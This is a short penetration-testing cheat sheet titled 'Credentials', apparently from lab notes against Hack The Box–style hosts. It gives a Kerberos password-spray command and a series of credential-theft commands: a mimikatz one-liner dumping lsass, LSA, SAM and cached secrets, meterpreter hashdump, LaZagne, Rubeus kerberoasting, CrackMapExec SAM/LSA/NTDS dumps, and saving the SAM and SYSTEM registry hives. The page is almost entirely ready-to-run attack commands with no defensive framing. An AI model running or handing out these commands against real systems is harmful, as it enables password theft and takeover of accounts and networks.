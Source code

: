 # Credentials

### <mark style="color:yellow;">Password Spray</mark>

```powershell
# Using kerberos auth
nxc ldap dc01.zencorp.htb -u comps.txt -p Zer0the0ne -k --continue-on-success
```

### <mark style="color:yellow;">Password retrieval</mark>

```powershell
# mimikatz
token::elevate
# Extract from lsass
sekurlsa::logonpasswords
# Extract from lsass
lsadump::lsa /inject
# Extract from SAM
lsadump::sam
# Oneliner
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"

# Using meterpreter
hashdump
# Lazagne
./lazagne.exe -all
# Rubeus
./Rubeus.exe kerberoast /domain:zencorp.local /user:username /nowrap

# CrackMapExec SAM
crackmapexe smb 192.168.1.1 -u username -p password --sam
# CrackMapExec lsass
crackmapexe smb 192.168.1.1 -u username -p password --lsa
# CrackMapExec ntds
crackmapexe smb 192.168.1.1 -u username -p password --ntds-history

# Copy manually
reg save HKLM\sam sam
reg save HKLM\system system
```
